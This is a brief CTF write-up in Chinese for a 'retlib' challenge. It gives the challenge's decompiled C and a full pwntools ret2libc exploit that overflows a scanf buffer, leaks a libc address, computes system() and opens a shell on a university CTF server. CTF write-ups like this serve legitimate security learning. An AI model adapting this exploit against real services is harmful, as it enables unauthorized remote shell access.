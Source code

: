 # retlib
#0blog

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("Hello!");
  printf("The address of \"/bin/sh\" is %p\n", binsh);
  printf("The address of function \"puts\" is 0x%x\n", &puts);
  fflush(stdout);
  return __isoc99_scanf("%s", &v4);
}
```

Puts用来泄漏`__libc_start_main`，计算system的地址。

有个小问题：本地关闭ASLR之后puts出来的system地址中含有 `\x0c`，于是各种跳不过去。。。奇怪，不应该啊，于是就打开了ASLR换一个地址。

![](Readme/CC13EAA9-4E01-4AF3-BB6E-F3A973C49830.png)

```python
from pwn import *

elf = ELF('ret2libc')
libc = ELF('libc.so.6')

libc_start_main_got = elf.got['__libc_start_main']
main = elf.symbols['main']

#p = process("./ret2libc")
p = remote("bamboofox.cs.nctu.edu.tw", 11002)
p.recvline()
binsh_addr = p.recvline().split()[-1][2:]
puts_addr = p.recvline().split()[-1][2:]
print 'binsh_addr: ' + binsh_addr
print 'puts_addr: ' + puts_addr

payload = flat(['A' * 32, int(puts_addr, 16), main, libc_start_main_got])
p.sendline(payload)
libc_start_main_addr = u32(p.recv()[:4])
print 'libc_start_main_addr: ' + hex(libc_start_main_addr)

system_addr = libc_start_main_addr - (libc.symbols['__libc_start_main'] - libc.symbols['system'])
print 'system_addr: ' + hex(system_addr)

payload = flat(['A' * 24, system_addr, main, int(binsh_addr, 16)])
#context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(proc.pidof(p)[0])
p.sendline(payload)
p.interactive()
```